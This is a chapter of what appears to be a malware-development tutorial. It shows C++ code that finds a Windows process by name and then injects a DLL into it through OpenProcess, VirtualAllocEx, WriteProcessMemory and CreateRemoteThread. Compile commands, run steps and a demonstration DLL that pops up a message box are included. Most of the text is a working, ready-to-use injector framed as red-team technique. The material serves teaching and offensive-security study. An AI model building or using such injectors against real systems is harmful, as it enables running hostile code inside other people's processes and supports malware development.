


## 7. find process ID by name and inject to it. Simple C++ example.

{width="80%"}

When I was writing my injector, I wondered how, for example, to find processes by name?   

When writing code or DLL injectors, it would be nice to find, for example, all processes running in the system and try to inject into the process launched by the administrator.

In this section I will try to solve a simplest problem first: find a process ID by name.

Fortunately, we have some cool functions in the Win32 API.

Let's go to code:
```cpp
/*
simple process find logic
author: @cocomelonc
*/
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <tlhelp32.h>

// find process ID by process name
int findMyProc(const char *procname) {

  HANDLE hSnapshot;
  PROCESSENTRY32 pe;
  int pid = 0;
  BOOL hResult;

  // snapshot of all processes in the system
  hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
  if (INVALID_HANDLE_VALUE == hSnapshot) return 0;

  // initializing size: needed for using Process32First
  pe.dwSize = sizeof(PROCESSENTRY32);

  // info about first process encountered in a system snapshot
  hResult = Process32First(hSnapshot, &pe);

  // retrieve information about the processes
  // and exit if unsuccessful
  while (hResult) {
    // if we find the process: return process ID
    if (strcmp(procname, pe.szExeFile) == 0) {
      pid = pe.th32ProcessID;
      break;
    }
    hResult = Process32Next(hSnapshot, &pe);
  }

  // closes an open handle (CreateToolhelp32Snapshot)
  CloseHandle(hSnapshot);
  return pid;
}

int main(int argc, char* argv[]) {
  int pid = 0; // process ID

  pid = findMyProc(argv[1]);
  if (pid) {
    printf("PID = %d\n", pid);
  }
  return 0;
}
```

Let's go to examine our code.   
So first we parse process name from arguments. Then we find process ID by name and print it:

{width="80%"}

To find PID we call `findMyProc` function which basically, what it does, it takes the name of the process we want to inject to and try to find it in a memory of the operating system, and if it exists, it's running, this function return a process ID of that process:

{width="80%"}

I added comments to the code, so I think you shouldn't have so many questions.   
First we get a snapshot of currently executing processes in the system using [CreateToolhelp32Snapshot](https://docs.microsoft.com/en-us/windows/win32/api/tlhelp32/nf-tlhelp32-createtoolhelp32snapshot):    

{width="80%"}

And then we walks through the list recorded in the snapshot using [Process32First](https://docs.microsoft.com/en-us/windows/win32/api/tlhelp32/nf-tlhelp32-process32first) and [Process32Next](https://docs.microsoft.com/en-us/windows/win32/api/tlhelp32/nf-tlhelp32-process32next):

{width="80%"}

if we find the process which is match by name with our `procname` return it's ID.   

As I wrote earlier, for simplicity, we just print this PID.   

Let's go to compile our code:
```bash
i686-w64-mingw32-g++ hack.cpp -o hack.exe \
-lws2_32 -s -ffunction-sections -fdata-sections \
-Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```
{width="80%"}

And now launch it in Windows machine (Windows 7 x64 in my case):
```cmd
.\hack.exe mspaint.exe
```
{width="80%"}

As you can see, everything work perfectly.    

Now, if we think like a red teamer, we can write a more interesting injector, which, for example, find process by name and inject our payload to it.   

Let's go!    
Again for simplicity I'll take my injector from one of my [posts](https://cocomelonc.github.io/tutorial/2021/09/20/malware-injection-2.html) and just add the function `findMyProc`:

```cpp
/*
simple process find logic
author: @cocomelonc
*/
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <tlhelp32.h>

char evilDLL[] = "C:\\evil.dll";
unsigned int evilLen = sizeof(evilDLL) + 1;

// find process ID by process name
int findMyProc(const char *procname) {

  HANDLE hSnapshot;
  PROCESSENTRY32 pe;
  int pid = 0;
  BOOL hResult;

  // snapshot of all processes in the system
  hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
  if (INVALID_HANDLE_VALUE == hSnapshot) return 0;

  // initializing size: needed for using Process32First
  pe.dwSize = sizeof(PROCESSENTRY32);

  // info about first process encountered in a system snapshot
  hResult = Process32First(hSnapshot, &pe);

  // retrieve information about the processes
  // and exit if unsuccessful
  while (hResult) {
    // if we find the process: return process ID
    if (strcmp(procname, pe.szExeFile) == 0) {
      pid = pe.th32ProcessID;
      break;
    }
    hResult = Process32Next(hSnapshot, &pe);
  }

  // closes an open handle (CreateToolhelp32Snapshot)
  CloseHandle(hSnapshot);
  return pid;
}

int main(int argc, char* argv[]) {
  int pid = 0; // process ID
  HANDLE ph; // process handle
  HANDLE rt; // remote thread
  LPVOID rb; // remote buffer

  // handle to kernel32 and pass it to GetProcAddress
  HMODULE hKernel32 = GetModuleHandle("Kernel32");
  VOID *lb = GetProcAddress(hKernel32, "LoadLibraryA");

  // get process ID by name
  pid = findMyProc(argv[1]);
  if (pid == 0) {
    printf("PID not found :( exiting...\n");
    return -1;
  } else {
    printf("PID = %d\n", pid);
  }

  // open process
  ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(pid));

  // allocate memory buffer for remote process
  rb = VirtualAllocEx(ph, NULL, 
  evilLen, 
  (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);

  // "copy" evil DLL between processes
  WriteProcessMemory(ph, rb, evilDLL, evilLen, NULL);

  // our process start new thread
  rt = CreateRemoteThread(ph, 
  NULL, 
  0, (LPTHREAD_START_ROUTINE)lb, 
  rb, 0, NULL);
  CloseHandle(ph);
  return 0;
}
```

compile our `hack2.cpp`:
```bash
x86_64-w64-mingw32-gcc -O2 hack2.cpp -o hack2.exe 
-mconsole -I/usr/share/mingw-w64/include/ -s 
-ffunction-sections -fdata-sections -Wno-write-strings 
-fno-exceptions -fmerge-all-constants -static-libstdc++ 
-static-libgcc -fpermissive >/dev/null 2>&1
```

{width="80%"}

"Evil" DLL is the same:    
```cpp
/*
evil.cpp
simple DLL for DLL inject to process
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2021/09/20/malware-injection-2.html
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

BOOL APIENTRY DllMain(HMODULE hModule, 
DWORD nReason, LPVOID lpReserved) {
  switch (nReason) {
  case DLL_PROCESS_ATTACH:
    MessageBox(
      NULL,
      "Meow from evil.dll!",
      "=^..^=",
      MB_OK
    );
    break;
  case DLL_PROCESS_DETACH:
    break;
  case DLL_THREAD_ATTACH:
    break;
  case DLL_THREAD_DETACH:
    break;
  }
  return TRUE;
}
```

compile and put it in a directory of our choice:   
```bash
x86_64-w64-mingw32-g++ -shared -o evil.dll evil.cpp -fpermissive
```

{width="80%"}

run:
```cmd
.\hack2.exe mspaint.exe
```
{width="80%"}

As you can see, everything is good:
We launch `mspaint.exe` and our simple injector find PID **(1)**   
Our DLL with simple pop-up (Meow) is work! **(2)**    

To verify our DLL is indeed injected into `mspaint.exe` process we can use Process Hacker, in memory section we can see:   
{width="80%"}

It seems our simple injection logic worked!    

In this case, I didn't check if `SeDebugPrivilege` is "enabled" in my own process. And how can I get this privileges??? I have to study this with all the caveats in the future.

[CreateToolhelp32Snapshot](https://docs.microsoft.com/en-us/windows/win32/api/tlhelp32/nf-tlhelp32-createtoolhelp32snapshot)          
[Process32First](https://docs.microsoft.com/en-us/windows/win32/api/tlhelp32/nf-tlhelp32-process32first)         
[Process32Next](https://docs.microsoft.com/en-us/windows/win32/api/tlhelp32/nf-tlhelp32-process32next)       
[strcmp](https://docs.microsoft.com/en-us/cpp/c-runtime-library/reference/strcmp-wcscmp-mbscmp?view=msvc-160)         
[Taking a Snapchot and Viewing Processes](https://docs.microsoft.com/en-us/windows/win32/toolhelp/taking-a-snapshot-and-viewing-processes)         
[CloseHandle](https://docs.microsoft.com/en-us/windows/win32/api/handleapi/nf-handleapi-closehandle)         
[VirtualAllocEx](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex)   
[WriteProcessMemory](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory)   
[CreateRemoteThread](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread)   
[OpenProcess](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-openprocess)    
[GetProcAddress](https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-getprocaddress)     
[LoadLibraryA](https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-loadlibrarya)

[Source code on Github](https://github.com/cocomelonc/2021-09-29-processfind-1)
